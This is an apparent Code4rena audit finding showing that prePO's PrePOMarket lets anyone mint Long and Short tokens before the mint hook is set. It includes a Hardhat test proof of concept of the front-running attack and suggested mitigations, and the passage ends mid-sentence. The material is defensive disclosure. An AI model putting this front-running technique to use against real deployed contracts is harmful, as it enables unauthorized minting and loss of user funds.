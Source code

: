 ## Tags

- bug
- 2 (Med Risk)
- primary issue
- satisfactory
- selected for report
- M-03

# [Frontrunning for unallowed minting of Short and Long tokens](https://github.com/code-423n4/2022-12-prepo-findings/issues/93) 

# Lines of code

https://github.com/prepo-io/prepo-monorepo/blob/feat/2022-12-prepo/apps/smart-contracts/core/contracts/PrePOMarket.sol#L68
https://github.com/prepo-io/prepo-monorepo/blob/feat/2022-12-prepo/apps/smart-contracts/core/contracts/PrePOMarket.sol#L109


# Vulnerability details

## Unallowed minting of Short and Long tokens
The documentation states that minting of the Short and Long tokens should only be done by the governance.

```solidity
File: apps/smart-contracts/core/contracts/interfaces/IPrePOMarket.sol
73:    * Minting will only be done by the team, and thus relies on the `_mintHook`
74:    * to enforce access controls. This is also why there is no fee for `mint()`
75:    * as opposed to `redeem()`.
```

The problem is, that as long as the **_mintHook** is not set via **setMintHook**, everyone can use the mint function and mint short and long tokens.
At the moment the **_mintHook** is not set in the contructor of PrePOMarket and so the transaction that will set the **_mintHook** can be front run to mint short and long tokens for the attacker.

## Proof of Concept
https://github.com/prepo-io/prepo-monorepo/blob/feat/2022-12-prepo/apps/smart-contracts/core/contracts/PrePOMarket.sol#L68
https://github.com/prepo-io/prepo-monorepo/blob/feat/2022-12-prepo/apps/smart-contracts/core/contracts/PrePOMarket.sol#L109

This test shows how a attacker could frontrun the **setMintHook** function

```node
  describe('# mint front run attack', () => {
    let mintHook: FakeContract<Contract>
    beforeEach(async () => {
      prePOMarket = await prePOMarketAttachFixture(await createMarket(defaultParams))
    })
    it('user can frontrun the set setMintHook to mint long and short tokens', async () => {
      
      mintHook = await fakeMintHookFixture()
      await collateralToken.connect(deployer).transfer(user.address, TEST_MINT_AMOUNT.mul(2))
      await collateralToken.connect(user).approve(prePOMarket.address, TEST_MINT_AMOUNT.mul(2))

      // we expect the mintHook to always revert
      mintHook.hook.reverts()

      // attacker frontruns the setMintHook, even we expect the mintHook to revert, we will mint
      await prePOMarket.connect(user).mint(TEST_MINT_AMOUNT)

      // governance sets the mintHook
      await prePOMarket.connect(treasury).setMintHook(mintHook.address)

      // as we expect minthook to revert if not called from treasury, it will revert now
      mintHook.hook.reverts()
      await expect(prePOMarket.connect(user).mint(TEST_MINT_AMOUNT)).to.be.reverted

      // we should now have long and short tokens in the attacker account
      const longToken = await LongShortTokenAttachFixture(await prePOMarket.getLongToken())
      const shortToken = await LongShortTokenAttachFixture(await prePOMarket.getShortToken())
      expect(await longToken.balanceOf(user.address)).to.eq(TEST_MINT_AMOUNT)
      expect(await shortToken.balanceOf(user.address)).to.eq(TEST_MINT_AMOUNT)
    })
  })
```

## Recommended Mitigation Steps
To prevent the front-running, the **_mintHook** should be set in the deployment in the PrePOMarketFactory.

You could add one more address to the createMarket that accepts the mintHook address for that deployment and just add the address after
```solidity
File: apps/smart-contracts/core/contracts/PrePOMarketFactory.sol
46:     PrePOMarket _newMarket = new PrePOMarket{salt: _salt}(_governance, _collateral, ILongShortToken(address(_longToken)), ILongShortToken(address(_shortToken)), _floorLongPrice, _ceilingLongPrice, _floorValuation, _ceilingValuation, _expiryTime);
47:     deployedMarkets[_salt] = address(_newMarket);
```
the PrePOMarket ist deployed in the Factory.

Alternative you could add a default MintHook-Contract address that will always revert until it's changed to a valid one,